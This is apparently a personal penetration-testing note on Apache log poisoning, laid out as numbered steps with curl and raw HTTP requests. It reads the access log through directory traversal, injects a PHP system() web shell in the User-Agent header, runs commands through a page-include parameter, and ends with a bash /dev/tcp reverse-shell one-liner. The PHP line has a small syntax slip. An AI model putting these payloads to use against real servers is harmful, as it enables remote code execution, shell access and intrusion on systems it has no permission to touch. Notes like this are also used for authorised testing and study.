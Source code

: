 ```yaml
---
title: Log Poisoning
updated: 2025-05-12 02:28:57Z
created: 2025-04-18 11:07:45Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```





Note: this will leave 2 entries in the log file
* * * 
1. Try to traverse directories 
`curl http://target/cgi-bin/../../../../var/log/apache2/access.log`
2. Check if logs contain 'User-Agent' data being logged 
eg
`192.168.63.1 - - [12/Apr/2025:10:34:55 +0000] "GET /index.php HTTP/1.1" 200 2361 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Geck) Chrom/100.0.4896.75 Safari/537.36"`
3. Using Burp > Repeater, send request with 'User-Agent' data:
```
GET /index/php?page=admin.php HTTP/1.1
Host: example.com
User-Agent: <?php echo system($_GET('cmd')); ?>
```
 4. Now that cmd has been injected into the log file, send following request:
```
GET /index/php?page=../../../../../../var/log/apache2/access.log&cmd=ps
Host: example.com
```
5. Other commands can be run now, like:
Directory listing: `ls -la` or `ls%20-la`
Reverse shell: `bash -i >& /dev/tcp/<target>/<port> 0>&1`